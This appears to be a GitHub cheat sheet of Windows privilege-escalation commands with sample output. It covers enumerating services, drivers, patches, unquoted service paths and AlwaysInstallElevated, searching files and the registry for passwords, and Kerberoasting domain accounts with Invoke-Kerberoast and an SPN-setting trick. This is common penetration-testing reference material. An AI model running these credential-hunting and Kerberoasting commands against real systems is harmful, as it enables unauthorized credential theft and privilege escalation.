 # Windows Priv Esc Commands

## Host Privilege Escalation

### Schduled Tasks Path Alteration
Schduled tasks we can alter by path? They run at system context:

```schtasks /query /fo LIST /v```
```
C:\Users\KILLSWITCH-GUI>schtasks /query /fo LIST /v

Folder: \
HostName:                             DESKTOP-<SNIP>
TaskName:                             \ASC10_PerformanceMonitor
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               KILLSWITCH-GUI
Task To Run:                          C:\Program Files (x86)\IObit\Advanced SystemCare\Monitor.exe /Task
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:
Run As User:                          KILLSWITCH-GUI
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: Disabled
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At logon time
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A
<snip>
```

### Evaluating Vulnerable Services
We can use the `net start` command to evaluate services on the system:

```
C:\Users\KILLSWITCH-GUI>net start
These Windows services are started:

   Advanced SystemCare Service 10
   Application Information
   Application Management
   Background Intelligent Transfer Service
   Background Tasks Infrastructure Service
   Base Filtering Engine
   cFosSpeed System Service
   CNG Key Isolation
   COM+ Event System
   Computer Browser
   Connected Devices Platform Service
   Connected Devices Platform User Service_7e8e2a
   Connected User Experiences and Telemetry
   Contact Data_7e8e2a
   CoreMessaging
   <SNIP>
```

### Evaluating Vulnerable Drivers
Look for vuln drivers loaded, we often don't spend enough time looking at this:

```DRIVERQUERY /FO table```
```
C:\Users\KILLSWITCH-GUI>DRIVERQUERY /FO table

Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================
1394ohci     1394 OHCI Compliant Ho Kernel        12/10/2006 4:44:38 PM
3ware        3ware                  Kernel        5/18/2015 6:28:03 PM
ACPI         Microsoft ACPI Driver  Kernel        12/9/1975 6:17:08 AM
AcpiDev      ACPI Devices driver    Kernel        12/7/1993 6:22:19 AM
acpiex       Microsoft ACPIEx Drive Kernel        3/1/2087 8:53:50 AM
acpipagr     ACPI Processor Aggrega Kernel        1/24/2081 8:36:36 AM
AcpiPmi      ACPI Power Meter Drive Kernel        11/19/2006 9:20:15 PM
acpitime     ACPI Wake Alarm Driver Kernel        2/9/1974 7:10:30 AM
ADP80XX      ADP80XX                Kernel        4/9/2015 4:49:48 PM
<SNIP>
```

### Evaluating KBs/Patches
Look for KB / Patches installed or not:
```wmic qfe get Caption,Description,HotFixID,InstalledOn```
```
C:\Users\KILLSWITCH-GUI>wmic qfe get Caption,Description,HotFixID,InstalledOn
Caption                                     Description      HotFixID   InstalledOn
http://support.microsoft.com/?kbid=4022405  Update           KB4022405  6/8/2017
http://support.microsoft.com/?kbid=4022730  Security Update  KB4022730  6/8/2017
http://support.microsoft.com/?kbid=4025376  Security Update  KB4025376  7/12/2017
http://support.microsoft.com/?kbid=4025342  Security Update  KB4025342  7/15/2017
<SNIP>
```
```wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."```
```
C:\Users\KILLSWITCH-GUI> wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB4022405"
http://support.microsoft.com/?kbid=4022405  Update           KB4022405  6/8/2017
```

### Locating Unattended configs
Look for unattended configs in the following dirs:
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```

### Locating AlwaysInstallElevated 
key set to DWORD 1:
```reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated```
```
C:\Users\KILLSWITCH-GUI>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
ERROR: The system was unable to find the specified registry key or value.
```

### Locating Sensitive Files
Search the file system for file names containing certain keywords via cmd:
```dir /s *pass* == *cred* == *vnc* == *.config*```
```
C:\Users\KILLSWITCH-GUI>dir /s *pass* == *cred* == *vnc* == *.config*
 Volume in drive C has no label.
 Volume Serial Number is DA67-AFD2

 Directory of C:\Users\KILLSWITCH-GUI\AppData\Local

06/28/2017  09:04 AM    <DIR>          password-app
               0 File(s)              0 bytes
```

### Locating Sensitive Data In Files
Search certain file types for a keyword via cmd:
```findstr /si password *.xml *.ini *.txt```
```
C:\Users\KILLSWITCH-GUI>findstr /si password *.xml *.ini *.txt
.PyCharmCE2017.1\config\options\ide.general.xml:    <entry key="ide.ssh.one.time.password" value="true" />
AppData\Local\lxss\rootfs\usr\share\dbus-1\interfaces\org.freedesktop.Accounts.User.xml:  <method name="SetPasswordMode">
```

### Locating Passwords Within Thhe Registry
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
```
C:\Users\KILLSWITCH-GUI>reg query HKLM /f password /t REG_SZ /s

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{0fafd998-c8e8-42a1-86d7-7c10c664a415}
    (Default)    REG_SZ    Picture Password Enrollment UX

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{2135f72a-90b5-4ed3-a7f1-8bb705ac276a}
    (Default)    REG_SZ    PicturePasswordLogonProvider
```

###  Locating Unquoted Service Paths
```wmic service get name,startmode,pathname | findstr /i /v ":\windows\" | findstr /v """```
```
C:\Users\KILLSWITCH-GUI>wmic service get name,startmode,pathname | findstr /i /v ":\windows\" | findstr /v """
Name                                      PathName                                                                                                                                                                                                                                                                             StartMode
AJRouter                                  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted                                                                                                                                                                                                                     Manual
ALG                                       C:\WINDOWS\System32\alg.exe                                                                                                                                                                                                                                                          Manual
AppIDSvc                                  C:\WINDOWS\system32\svchost.exe -k LocalServiceNetworkRestricted    
```

---

## Domain Privilege Escalation

### Kerbroasting
https://gist.github.com/HarmJ0y/cc1004307157e372fc5bd3f89e553059

#### Kerbroast a domain and set for crashing is hashcat format:
```powershell
Invoke-Kerberoast -OutputFormat Hashcat | fl
```

#### ACL rights to set a SPN on user account and crack via SPN kerb ticket:
```powershell
1. Set-DomainObject -Identity 'user' -set@{serviceprincipalname='blah\blah'}
2. Invoke-Kerberoast -Identity 'user' -OutputFormat hashcat | fl ==alternative command:== Get-DomainUser -Identity 'user' | Get-DomainSPNTicket 
3. Set-DomainObject -Identity 'user' -Clear serviceprincipalname
```